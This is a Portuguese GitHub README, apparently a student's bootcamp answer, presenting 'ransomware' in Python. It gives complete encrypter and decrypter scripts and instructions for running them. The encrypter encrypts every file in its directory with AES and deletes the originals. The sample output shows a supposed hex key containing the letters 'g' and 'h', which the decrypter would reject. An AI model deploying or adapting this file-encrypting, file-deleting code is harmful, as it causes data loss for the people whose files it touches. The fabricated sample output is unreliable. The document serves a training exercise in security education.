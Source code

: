 
# Ransomware - Criptografia de Dados (AES-256)

![Segmento](https://img.shields.io/badge/Segmento_:-Segurança_da_Informação-blue?style=flat-square)
![Tecnologias](https://img.shields.io/badge/Tecnologias_:-Python_,_AES256-lightyellow?style=flat-square) 
![Ano](https://img.shields.io/badge/Ano_:-2025-darkred?style=flat-square)

Esta é a minha resposta ao último desafio de código oferecido pelo Bootcamp de Cibersegurança 2 - Santander.

## Objetivo

Implemente um Ransomware para criptografar arquivos utilizando a linguagem Python.

## Estrutura - Encrypter e Decrypter

Este script em python para criptografa os arquivos existentes no diretório em que está usando a criptografia AES-256. O script gera automaticamente uma chave aleatória, criptografa todos os arquivos no diretório atual (exceto o próprio script e arquivos já criptografados) e remove os arquivos originais após a criptografia.

Estes são scripts em Python utilizados para criptografar arquivos usando AES-256 e para descriptografar arquivos previamente criptografados. Ambos os scripts ajudam a proteger seus dados de forma segura e eficiente. Mas, em mãos erradas, podem causar danos e perdas.

## Funcionalidades

### Encrypter

* **Criptografia AES-256**: Garante alta segurança ao criptografar arquivos com uma chave de 256 bits.
* **Geração Automática de Chave**: Cria uma chave aleatória e segura para a criptografia.
* **Criptografia Seletiva**: Evita criptografar diretórios, arquivos já criptografados e o próprio script.
* **Remoção de Arquivos Originais**: Exclui os arquivos originais após a criptografia.

### Decrypter

* **Descriptografia AES-256**: Recupera os arquivos criptografados utilizando a chave original.
* **Identificação Automática**: Identifica arquivos criptografados pela extensão .vnsrx.
* **Limpeza**: Remove os arquivos criptografados após a descriptografia bem-sucedida.

## Requisitos

Python 3.x

Biblioteca pyaes (instale via pip, caso ainda não tenha):

 ```bash
pip install pyaes
 ```

## Como Usar

**Criptografia de Arquivos**

* Clone o repositório ou baixe o arquivo do script de criptografia.
* Coloque o script no diretório que contém os arquivos que você deseja criptografar.
* Execute o script de criptografia:

 ```bash
python3 encrypter.py
 ```

  O script gerará uma chave de criptografia aleatória e a exibirá em formato hexadecimal. Guarde essa chave com segurança, pois ela será necessária para descriptografar os arquivos posteriormente.

  O script criptografará todos os arquivos no diretório, adicionando a extensão .vnsrx aos arquivos criptografados, e excluirá os arquivos originais.

Descriptografia de Arquivos

* Certifique-se de ter a chave utilizada na criptografia.
* Baixe ou execute o script de descriptografia no mesmo diretório onde estão os arquivos criptografados.
* Execute o script de descriptografia:

 ```bash
python3 decrypter.py
 ```

Insira a chave de descriptografia em formato hexadecimal quando solicitado. O script descriptografará todos os arquivos e os salvará sem a extensão .vnsrx, removendo os arquivos criptografados.

## Exemplo de Saída

**Script de Criptografia**

 ```bash
Chave gerada: 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt criptografado com sucesso e salvo como exemplo.txt.vnsrx!
Arquivo original exemplo.txt foi removido.
Todos os arquivos foram criptografados.
 ```

**Script de Descriptografia**

 ```bash
Digite a chave de descriptografia em formato hexadecimal (64 caracteres): 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt.vnsrx descriptografado com sucesso e salvo como exemplo.txt!
Arquivo criptografado exemplo.txt.vnsrx foi removido.
Todos os arquivos criptografados foram descriptografados e removidos.
 ```
## Observações

* **Segurança da Chave**: As chaves de criptografia e descriptografia não são salvas pelos scripts. Certifique-se de armazená-las com segurança.

* **Processo Irreversível**: Após a criptografia ou descriptografia, os arquivos originais ou criptografados são excluídos permanentemente. Garanta que você salvou a chave antes de executar os scripts.

## Os Códigos em Pyhton

**ENCRYPTER**

 ```bash
import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
    """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
    return os.urandom(length)

def encrypt_file(file_name, key):
    # Lê os dados do arquivo
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Cria um objeto AES com AES-256
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografa os dados
    encrypted_data = aes.encrypt(file_data)

    # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
    new_file_name = file_name + ".vnsrx"
    with open(new_file_name, "wb") as file:
        file.write(encrypted_data)

    print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo criptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo original
        os.remove(file_name)
        print(f"Arquivo original {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)

    print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

    # Nome do arquivo do script
    script_name = os.path.basename(__file__)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Ignora diretórios, arquivos já criptografados e o próprio script
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
            encrypt_file(file_name, key)

    print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
    main()
 ```

**DECRYPTER**

 ```bash
import os
import pyaes

def decrypt_file(file_name, key):
    # Lê os dados do arquivo criptografado
    with open(file_name, "rb") as file:
        encrypted_data = file.read()

    # Cria um objeto AES
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografa os dados
    decrypted_data = aes.decrypt(encrypted_data)

    # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
    new_file_name = file_name.replace('.vnsrx', '')
    with open(new_file_name, "wb") as file:
        file.write(decrypted_data)

    print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo descriptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo criptografado
        os.remove(file_name)
        print(f"Arquivo criptografado {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
    # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
    key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

    # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
    if len(key_hex) != 64:
        print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
        return

    # Converte a chave de hexadecimal para bytes
    key = bytes.fromhex(key_hex)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Verifica se o arquivo é criptografado
        if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
            decrypt_file(file_name, key)

    print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
    main()
   ```



 ```bash
Não criptografe esse documento, por favor! Ele é importante para a participação no Bootcamp de Cibersegurança - Santander #2
                                                       - DIO 2025 -
 ```


